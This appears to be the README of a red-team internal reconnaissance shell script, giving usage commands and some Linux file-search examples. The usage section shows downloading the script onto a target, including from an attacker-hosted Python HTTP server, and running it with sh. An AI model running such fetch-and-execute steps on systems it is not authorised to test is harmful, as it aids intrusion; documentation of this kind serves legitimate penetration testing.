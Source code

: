 # Internal Reconnaissance Phase

Definition...  

## Usage

```sh
# From github
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/internal-recon/internal-recon.sh
sh internal-recon.sh
```
```sh
# Local network
# Host:
python -m SimpleHTTPServer 8000 #or
python3 -m http.server 8000
# Target:
curl -LJO <Host>:8000/internal-recon.sh
sh internal-recon.sh
```

## Checks

- System Information
- User Information: 
...


## Results

Results saved to current directory.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems.

-----

## Additional Information

### Search files and directories in linux

Examples:
```
# search files and directories by keyword within "/" directory (case insensitive)
sudo find / -iname <keyword> 2>/dev/null

# search directories by keyword within "/" directory (case insensitive)
sudo find / -type d -iname some_directory 2>/dev/null

# search files with specific file extension within "/home" directory (case sensitive)
sudo find /home -type f -name "*.conf"

# search files with executable permission
sudo find /home -perm /a=x
```


